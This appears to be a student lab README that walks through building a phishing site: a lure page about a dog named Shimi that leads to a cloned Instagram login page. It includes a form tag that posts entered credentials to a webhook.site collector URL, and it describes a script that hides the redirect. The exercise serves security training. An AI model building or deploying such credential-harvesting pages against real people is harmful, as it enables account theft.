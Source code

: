 # Phishing Project

## Introduction

There are different types of phishing, however, many of them are based on the reproduction of a web document, to do this it is necessary to use different programming languages and tools.

### Challenge

- Bob has a dog (a bull terrier) named "Shimi". Bob really loves his dog. 
- Your mission will be to obtain Bob's password of some platform of your choice.


___________________________________________________________

## Table of content

 - [Creating the webpage with HTML and CSS]()

- [Recreating Instagram Log-in page]()

- [WebHook]()

- [Script with JavaScript]()


#### **_NOTE: The exercise has been done entirely with VScode and then tested on Brave browser._** 


#### Inspiration from [Zphisher Tool.](https://github.com/htr-tech/zphisher "https://github.com/htr-tech/zphisher") 


______________________________________________________________________


### Creating the webpage with HTML and CSS

An HTML webpage is built using a combination of HTML (Hypertext Markup Language) and CSS (Cascading Style Sheets) to define the structure and presentation of the content.


#### Steps to create the phishing webpage:

- Doctype declaration (`<!DOCTYPE html>`) to specify the HTML version.
- Opening and closing `<html>` tags to enclose the HTML document.
- `<head>` section containing metadata such as character encoding, viewport settings, title, and external CSS stylesheets.
- Opening and closing `<body>` tags to contain the visible content of the webpage.
- `<div>` elements with classes "container" and "text-area" for organizing content.
- Heading elements (`<h1>`, `<h2>`, `<h3>`) for displaying different levels of headings.
- `<img>` tag to display an image.
- `<ul>` (unordered list) with `<li>` (list item) elements to create a bulleted list.
- `<button>` element with a class "call-to-action" and an anchor (`<a>`) element inside for creating a clickable button.
- Anchors (`<a>`) with href attributes to create links to other pages.

Additionally, the file references resources such as an image file ("Shimi-terrier.jpg"), a favicon image ("pedigree-logo.png"), and a CSS file ("style.css") for styling the webpage.

Here to see the codes.  ------>   [LINK]() 

[IMAGE of the HTML CODE]

#### Putting some style with CSS

The HTML file itself without the "styling" from the CSS  it would look so chaotic, so I wrote down some lines in order to customize a bit the webpage.

Here you can find the CSS file if you are curious to see.     ----->    [LINK]()


#### And here is the final result of our phishing page
![IMAGE of the HTML page](https://github.com/Crucius96/Becode-Projects/blob/master/Phishing%20Chapter/Phishing%20Exercise/imgs/phishing-html.png)


________________________________

### Recreating Instagram Log-in page

##### Once you set up the HTML (with its CSS)
In my case I have created an html that works as an initial phishing webpage, with it a **"call to action"** button to redirect to a landing page that is a copy of Instagram Log-in page.

I managed to have a copy of the HTML and CSS of Instagram Log-In page through [CODEPEN.IO](https://codepen.io/azamatmj/pen/LdrMXv)

Looks pretty much the same as the original Instagram Log-In page, but I had to add the Header tag in the HTML in order to implement: Logo on the tab browser, link it with its CSS and finally in its body a  Script with JS (for the [WebHook]()).

Here is the HTML            ------->    [LINK]() 

Here is the CSS                ------->    [LINK]() 


##### Try to find the difference with the original site
[PHOTO OF THE LOG-IN PAGE]()


______________________________________


### Let's make it work now!

##### Collecting data with WebHook
To gather the information that our victim Bob is typing in order to log-in into Instagram to get in contact with Pedigree Team, we will be using [WebHook](https://webhook.site/)

Webhook.site, **an HTTP-based callback function that allows lightweight, event-driven communication between 2 application programming interfaces (APIs).** Webhooks are used by a wide variety of web apps to receive small amounts of data from other apps, but webhooks can also be used to trigger automation workflows in GitOps environments.

Once we get into the site, we will be given a unique URL  which we will need to insert in the HTML file, precisely in the "form" tag (in line 25) in order to communicate with the site:

```
<form id="myForm" action="https://webhook.site/1094a4f8-3820-40c4-9a7e-78383e181346" method= "POST" class="form">
```

__________________________________________


### Almost done!

##### JavaScript is the last step
We will need to finish with a script so we can make the Log-In webpage work and act like the real one and to make it **not redirect to the WebHook site** once the form is filled.


Finally we will insert before the closing tag of the body of our HTML file:
```
<script src="script.js"></script>
```
in order to implement it in the webpage.



Here is the JavaScript            ------->    [LINK]() 

_______________________________________


### Done!

Finally we can test it. Once filled the form and clicked on "log in", we can visit our WebHook site and we will find the credentials needed!

[PHOTO OF WEBHOOK]()
